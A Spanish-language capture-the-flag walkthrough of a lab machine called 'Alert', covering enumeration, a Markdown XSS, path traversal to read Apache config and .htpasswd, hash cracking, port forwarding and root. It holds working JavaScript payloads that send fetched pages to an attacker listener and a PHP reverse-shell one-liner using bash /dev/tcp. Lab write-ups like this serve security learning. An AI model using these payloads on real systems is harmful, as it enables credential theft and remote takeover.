```yaml
---
title: "Alert"
date: "2025-03-24T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["Apache-server", "Port-Fowarding", "XSS", "Cross-Site-Scripting", "Markdown-injection"]
---
```


## Descripción:
Maquina en la cual se encuentra una visualizador de archivos Markdowns, vulnerable a xss cross site scripting, mediante una opcion para compartir los archivos .md subimos un codigo con la intencion de hacer un phishing y contactar con el administrador para enumerar información sensible.

Ya con un usuario y contraseña se realiza un escalamiento de privilegios mediante un port forwarding debido a un servicio que estaba corriendo como root.

# Enumeración

Con nmap vamos a revisar que puertos estan abiertos y que servicios estan corriendo.

```java
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.36.72 -oG allPorts
```

<a href="https://imgur.com/JhER1OH"><img src="https://i.imgur.com/JhER1OH.png" title="source: imgur.com" /></a>

```java
nmap -sCV -p22,80 10.129.36.72 -oN target
```

<a href="https://imgur.com/kMelVQ1"><img src="https://i.imgur.com/kMelVQ1.png" title="source: imgur.com" /></a>

Podemos ver que en el puerto 80, en la segunda línea, nos aparece la URL del servicio HTTP, por lo que la vamos a agregar al archivo /etc/hosts junto con la IP para poder abrir la página.

```jsx
sudo nano /etc/hosts  
```

Vamos a buscar subdominios con un código de estado diferente a 301 utilizando la herramienta wfuzz.

```jsx
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.alert.htb" http://alert.htb/ | grep -v "301" 
```

<a href="https://imgur.com/rFvhWSc"><img src="https://i.imgur.com/rFvhWSc.png" title="source: imgur.com" /></a>

Vemos que encontramos un subdominio, el cual también se debe agregar al archivo /etc/hosts como `statistics.alert.htb.`

<a href="https://imgur.com/GLzvLHW"><img src="https://i.imgur.com/GLzvLHW.png" title="source: imgur.com" /></a>

En la página que está en el puerto 80, podemos subir archivos Markdown (.md) y enviar una solicitud al administrador.

En el subdominio nos pide una contraseña y no podemos ingrasar

<a href="https://imgur.com/8JFEjs2"><img src="https://i.imgur.com/8JFEjs2.png" title="source: imgur.com" /></a>

Después de buscar, encontramos que podemos ejecutar algunas acciones mediante el archivo Markdown. Además, si subimos el archivo y oprimimos el botón de compartir, podemos enviarle el enlace del archivo a alguien mas.

Podemos comprobar que funciona con una alert en JavaScript:

```jsx
<!-- XSS with regular tags -->
<script>alert(1)</script>
<img src=x onerror=alert(1) />
```

<a href="https://imgur.com/YB2Chwk"><img src="https://i.imgur.com/YB2Chwk.png" title="source: imgur.com" /></a>

# Explotación xss

Podemos probar a obtener información de una de las rutas a las cuales no tenemos acceso, como  `messages`.

```jsx
<script>
fetch("http://alert.htb/messages/")  // Realiza la solicitud GET
  .then(response => response.text())  // Convierte la respuesta en texto
  .then(data => {
    // Luego, realiza la solicitud POST con los datos obtenidos
    return fetch("http://IP:4444/", {
      method: "POST",
      body: data  // Envia los datos obtenidos en el cuerpo de la solicitud POST
    });
  })
  .then(response => response.text())  // Espera la respuesta de la solicitud POST
  .then(result => {
    console.log(result);  // Muestra la respuesta de la solicitud POST
  })
  .catch(error => {
    console.error('Error:', error);  // Maneja errores de las solicitudes
  });
</script>
```

Lo que vamos a hacer es intentar que el administrador abra el archivo por nosotros y nos envíe el contenido, utilizando el código anterior y con nc recibir la respuesta.

Después de subir el archivo, lo que hacemos es darle a 'Compartir' y copiar la URL para luego preparar Netcat y enviar la solicitud al administrador.

```jsx
nc -lvnp 4444
```

<a href="https://imgur.com/OWaQjfE"><img src="https://i.imgur.com/OWaQjfE.png" title="source: imgur.com" /></a>

Pero nos indica lo mismo: que no tenemos permisos.

Si buscamos en Google archivos de configuración predeterminados para un servidor Apache, encontramos la siguiente ruta: `/etc/apache2/sites-enabled/000-default.conf`. Entonces, vamos a repetir lo anterior, cambiando la ruta por un archivo PHP llamado messages.php, seguido del archivo de configuración.

```jsx
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../../etc/apache2/sites-enabled/000-default.conf")  // Realiza la solicitud GET
  .then(response => response.text())  // Convierte la respuesta en texto
  .then(data => {
    // Luego, realiza la solicitud POST con los datos obtenidos
    return fetch("http://IP:4444/", {
      method: "POST",
      body: data  // Envia los datos obtenidos en el cuerpo de la solicitud POST
    });
  })
  .then(response => response.text())  // Espera la respuesta de la solicitud POST
  .then(result => {
    console.log(result);  // Muestra la respuesta de la solicitud POST
  })
  .catch(error => {
    console.error('Error:', error);  // Maneja errores de las solicitudes
  });
</script>
```

Vemos que hay una ruta a lo que podría ser un archivo con contraseñas llamado `.htpasswd`. Entonces, vamos a hacer el mismo proceso, pero con este nuevo archivo: `http://alert.htb/messages.php?file=../../../var/www/statistics.alert.htb/.htpasswd`

Y recibimos un archivo en el que, al parecer, está un usuario con su hash. Si quieren saber qué tipo de hash es, pueden buscar 'Hash Identifier' y pegarlo, para descifrarlo vamos a usar el siguiente comando:

```bash
# Comando para hashcat
hashcat -m 1600 -a 0 pass.txt /usr/share/wordlists/rockyou.txt
# Comando para John
john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<a href="https://imgur.com/gTdsulp"><img src="https://i.imgur.com/gTdsulp.png" title="source: imgur.com" /></a>

Y obtenemos la contraseña del usuario Albert.

# Root

Nos conectamos como Albert mediante SSH.

```jsx
ssh albert@IP
```

Ya estando dentro del sistema, podemos observar dos cosas. Si usamos el comando id, veremos que nuestro usuario pertenece a un grupo peculiar: uid=1000(albert), gid=1000(albert), groups=1000(albert), 1001(management).

Haciendo uso del siguiente comando, podremos buscar todos los archivos que tengan que ver con dicho grupo en específico.

```jsx
find / -type f -group management 2>/dev/null
```

La salida del comando anterior nos reporta que nuestro usuario tiene permisos completos en `/opt/website-monitor/config/configuration.php`.

Por la ruta absoluta del archivo, podemos inferir que existe otro servicio web local (ya que no fue reportado en nuestro escaneo con nmap).
Vemos los puertos internos en escucha con netstat -tuln:

<a href="https://imgur.com/3mQLSxz"><img src="https://i.imgur.com/3mQLSxz.png" title="source: imgur.com" /></a>

Si usamos ps aux, podremos observar que el servicio está corriendo como root, por lo que procedemos a hacer port forwarding (asegúrate de que tu puerto {port} no esté en uso).

```jsx
ssh -L {port}:localhost:8080 albert@IP
```

Después de revisar `/opt/website-monitor/config/configuration.php` más a detalle, resulta que nuestro usuario tiene permisos completos sobre toda la carpeta /config. A juzgar por lo simple de la aplicación, deberíamos poder acceder a cualquier archivo dentro del directorio `/website-monitor`. Con nuestros permisos de escritura en la carpeta /config, podemos crear un archivo con una revshell PHP alojado en dicha carpeta para obtener una shell como root.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/{IP}/{PORT} 0>&1'"); ?>
```

Para activar el archivo .php, solo es necesario ingresar su ruta en el navegador:

`http://localhost:{port}/config/payload.php`.

<a href="https://imgur.com/lEUrw3A"><img src="https://i.imgur.com/lEUrw3A.png" title="source: imgur.com" /></a>
